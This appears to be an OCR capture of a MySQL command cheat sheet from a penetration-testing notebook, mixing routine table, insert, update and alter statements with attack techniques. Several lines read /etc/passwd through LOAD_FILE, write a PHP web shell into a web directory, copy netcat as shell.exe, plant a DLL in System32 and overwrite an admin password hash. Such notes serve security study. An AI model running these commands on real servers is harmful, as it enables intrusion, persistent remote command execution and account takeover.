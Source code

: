 ```bash
    date_of_joining DATETIME DEFAULT NOW(),
    PRIMARY KEY (id)
    );

# Set id filed to auto increment
id INT NOT NULL AUTO_INCREMENT,

# Set username to be unique
username VARCHAR(100) UNIQUE NOT NULL,

# default the date
date_of_joining DATETIME DEFAULT NOW(),

# primary key
PRIMARY KEY (id)

# list the table structure with its fields and data types.
DESCRIBE logins;

# General usage
show databases;
use user;
show tables;
select * from users_secure;
select version();
select system_user();   # current db user 

# Add a new row
INSERT INTO table_name VALUES (column1_value, column2_value, column3_value, ...);
INSERT INTO table_name(column2, column3, ...) VALUES (column2_value, column3_value, ...);
INSERT INTO logins(username, password) VALUES ('john', 'john123!'), ('tom', 'tom123!');
INSERT INTO `users` (`id`, `user`, `password`, `date`) VALUES (NULL, 'nick', 'password', '123456789');

# Update/Edit
UPDATE table_name SET column1=newvalue1, column2=newvalue2, ... WHERE <condition>;
UPDATE logins SET password = 'change_password' WHERE id > 1;
update users_secure SET password="$2y$10$R0cpsKNLDqDZpfxDCaq8Qufxl0uLbmwiL0k6XDR1kPBDXVIYbeQ0W" WHERE username="admin"

# Read Local Files in MySQL
select LOAD_FILE("/etc/passwd");


# Upload/write a php file
select '<?php echo system($_REQUEST["cmd"]); ?>' into outfile "/srv/http/cmd.php"
select load_file('C:\\test\\nc.exe') into dumpfile 'C:\\test\\shell.exe';
select load_file('C:\\test\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";

# Secure File Privileges
show variables like "secure_file_priv";

# Move Files
select load_file('C:\\test\\nc.exe') into dumpfile 'C:\\test\\shell.exe';
select load_file('C:\\test\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";

# Remove tables and databases
DROP TABLE logins;

# ALTER Statement(change the name of any table and any of its fields or to delete or add a new column to an existing table)
ALTER TABLE logins ADD newColumn INT;
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn;
```
